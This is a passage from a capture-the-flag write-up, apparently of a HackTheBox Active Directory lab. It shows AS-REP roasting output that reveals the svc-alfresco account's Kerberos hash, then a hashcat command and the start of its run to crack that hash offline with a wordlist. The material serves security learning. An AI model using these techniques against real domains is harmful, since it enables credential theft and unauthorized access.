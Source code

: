 ```none
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f05a2b15c6dde44f6d8830c5b0627b34$350048b7786adbdbfe6ac933a80e9488f0a89da3a342c4c49d8ab1161ea628ed24c25a4d07443b5b8db2d60832e686d793651528fa447e8c9abb916be6d4f9a17836a6ec52eed66211cfed3a4aa130e6c065c14965246f640b6e97c49e0cc40b336abc3b297c9d4297079237b69f39731f77cded12c8d3c262ffd7648372953b695094a2bd221ac95b85af908033a3b2f2cd5e819313c3a04924a1be52fb660ce4485968744be4fa0ec1acc63353f110538615496cbfa765a03ad4e634f893dbd7966c89bdd6df0d328b6bd11b1af6ff046db8937bb6a564ba849c5c055b203d3882acc9d4b4
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

As seen above, the `svc-alfresco` user didn't have Kerberos preauthentication enabled, so I was able to translate the secret from the AS-REP into a hash that can be cracked by hashcat.

### Cracking the Secret from the AS-REP Response

I moved the hash to my cracking machine to perform an offline brute force attack to see if I could crack `svc-alfresco`'s password:

```none
PS D:\hashcat\hashcat-6.0.0> .\hashcat.exe -a 0 -m 18200 ..\hashes\forest-svc-alfresco.asreproast ..\wordlists\rockyou.txt
hashcat (v6.0.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: Unstable OpenCL driver detected!

This OpenCL driver has been marked as likely to fail kernel compilation or to produce false negatives.
You can use --force to override this, but do not report related errors.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 11.0)
====================
* Device #1: GeForce GTX 1650 with Max-Q Design, 3323/4096 MB, 16MCU

OpenCL API (OpenCL 1.2 CUDA 11.0.208) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: GeForce GTX 1650 with Max-Q Design, skipped

OpenCL API (OpenCL 2.1 ) - Platform #2 [Intel(R) Corporation]
=============================================================
* Device #3: Intel(R) UHD Graphics 630, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
```